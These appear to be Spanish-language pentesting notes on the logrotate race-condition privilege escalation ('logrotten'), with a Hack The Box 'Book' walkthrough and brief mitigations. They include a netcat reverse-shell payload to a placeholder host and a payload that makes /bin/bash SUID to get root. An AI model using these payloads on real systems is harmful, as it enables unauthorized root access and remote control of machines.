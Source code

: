 ** Privilege Escalation **
https://www.exploit-db.com/exploits/47466

Breve descripción
   - logrotate es propenso a una condición de carrera (race condition) después de cambiar el nombre del archivo de registro.
   - Si logrotate se ejecuta como root, con opción que crea un
     archivo (como crear, copiar, comprimir, etc.) y el usuario tiene el control
     de la ruta del archivo de registro, es posible abusar de una condición de carrera para escribir
     archivos en CUALQUIER directorio.
   - Un atacante podría elevar sus privilegios escribiendo shells inversos en
     directorios como "/etc/bash_completition.d/".

Requisito para la escalada de privilegios
   - Logrotate debe ejecutarse como root
   - La ruta de registro debe estar bajo el control del atacante.
   - Cualquier opción que crea archivos se establece en la configuración de logrotate

Versión probada
   - Debian GNU / Linux 9.5 (estirado)
   - AMI de Amazon Linux 2 (HVM)
   - Ubuntu 18.04.1
   - logrotate 3.8.6
   - logrotate 3.11.0
   - logrotate 3.15.0

Compilar
   - gcc -o logrotten logrotten.c

Preparar el payload
```
echo "if [`id -u` -eq 0]; then (/bin/nc -e /bin/bash myhost 3333 &);
fi" > payloadfile
```

Ejecutar exploit

Si la opción "create" está configurada en logrotate.cfg:
```
  ./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

Si la opción "compress" está configurada en logrotate.cfg:
```
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```

Problemas conocidos
   - Es difícil ganar la carrera (race condition) dentro de un contenedor docker o en un volumen lvm2

Mitigación
   - asegúrese de que logpath sea propiedad de root
   - use la opción "su" en logrotate.cfg
   - use selinux o apparmor

** Ejemplo de uso en máquina Book_HTB **
1. Creamos fichero logrotten.c con el script en C (https://www.exploit-db.com/exploits/47466)
2. Compilamos el fichero --> `gcc logrotten.c -o logrotten`
3. Creamos fichero payloadfile --> 
``` bash
#!/bin/bash 
# Damos permiso SUID a la bash
chmod 4755 /bin/bash
```
4. La vulnerabilidad se da en el cambio de contenido de un fichero log, por lo que debemos tener un fichero log con contenido al cual logrotten podrá cambiar su contenido con el payloadfile.
5. Intoducir algo en el fichero /home/reader/backups/access.log
6. Ejecutar logrotten --> `./logrotten -p payloadfile /home/reader/backups/access.log`
7. Convertirse en root --> `bash -p`

